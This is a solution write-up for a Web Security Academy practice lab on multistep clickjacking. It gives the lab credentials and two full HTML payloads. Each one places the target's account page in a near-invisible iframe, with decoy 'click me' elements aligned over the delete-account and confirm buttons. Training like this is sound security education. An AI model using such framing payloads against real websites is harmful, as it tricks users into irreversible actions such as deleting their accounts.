

### Multistep clickjacking : PRACTITIONER

---

###### Solving this lab from Burp's browser.

> Given credentials `wiener:peter`.


> Login via the given credentials and head to the my-account page.



> Choosing to delete account we are taken to a confirmation page.


> Therefore, to impersonate this with a clickjacking payload, we need to prompt the user to click twice.

```HTML
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.1; 
			z-index:2; 
		} 
		#click_1 { 
			position:absolute; 
			top:400px; 
			left:100px; 
			z-index:1; 
		} 
		#click_2 {
			position:absolute; 
			top:500px; 
			left:200px; 
			z-index:1; 
		}
	</style> 
</head>
<body> 
	<div id="click_1"> first </div> 
	<div id="click_2"> second </div> 
	<iframe id="target_website" src="https://0a0000a403b3a23f81c961d800a30003.web-security-academy.net/my-account"> </iframe> 
</body>
```

> Place this payload into the exploit server and then store and view it.
> This is the testing payload, so the opacity of the target website is `0.1` until we can place the `click_1` on the delete account button, and the `click_2` on the yes to confirm deletion.


> The final payload.

```HTMl
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.00001; 
			z-index:2; 
		} 
		#click_1 { 
			position:absolute; 
			top:540px; 
			left:700px; 
			z-index:1; 
		} 
		#click_2 {
			position:absolute; 
			top:300px; 
			left:198px; 
			z-index:1; 
		}
	</style> 
</head>
<body> 
	<div id="click_1"> click me first </div> 
	<div id="click_2"> click me next </div> 
	<iframe id="target_website" src="https://0a0000a403b3a23f81c961d800a30003.web-security-academy.net/my-account"> </iframe> 
</body>
```

> Delivering this exploit to victim completes the lab.

---

